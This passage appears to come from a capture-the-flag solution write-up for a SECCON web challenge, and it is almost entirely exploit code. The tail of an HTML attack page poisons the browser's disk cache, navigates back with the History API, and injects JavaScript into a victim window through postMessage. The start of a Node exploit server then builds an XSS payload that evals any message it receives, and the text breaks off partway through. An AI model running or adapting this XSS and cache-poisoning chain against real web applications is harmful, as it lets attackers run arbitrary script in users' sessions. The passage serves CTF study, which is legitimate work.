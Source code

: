 ```html
        // Access to the deleted page with no token
        // Then, the browser will render a response with 500 status.
        const url = `${baseUrl}/api/notes/${noteId}`;
        evilWindow = open(url);
      }
      await sleep(1000);
      {
        // Open the bot's user page
        // Then, it will pollute the disk cache for the deleted page.
        evilWindow.location = baseUrl;
      }
      await sleep(1000);
      {
        // Access to the deleted page again using History API
        // Then, the browser will render the cached page and the XSS will occur!
        // Note that a bfcache will not be used because the page will have a window.opener reference.
        //   ref. https://web.dev/articles/bfcache?hl=en#avoid_windowopener_references
        evilWindow.location = `${location.origin}/back.html?n=2`;
      }
      await sleep(1000);
      {
        // Send a JavaScript code via postMessage
        // Then, the XSS window will execute it!
        evilWindow.postMessage(evilJs, baseUrl);
      }
    };
    main();
  </script>
</body>
```

`public/back.html`:
```html
<script>
  const n = parseInt(new URLSearchParams(location.search).get("n"));
  history.go(-n);
</script>
```

`index.js`:
```javascript
const path = require("node:path");

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL || fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL || fail("No ATTACK_BASE_URL");

if (!ATTACK_BASE_URL.startsWith("http://")) {
  fail("Invalid ATTACK_BASE_URL: the CSRF will fail");
}

const LISTEN_PORT = process.env.PORT || "8080";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const exploit = async () => {
  const noteId =
    // XSS payload:
    `<img src=0 onerror="window.addEventListener('message',e=>eval(e.data))">` +
```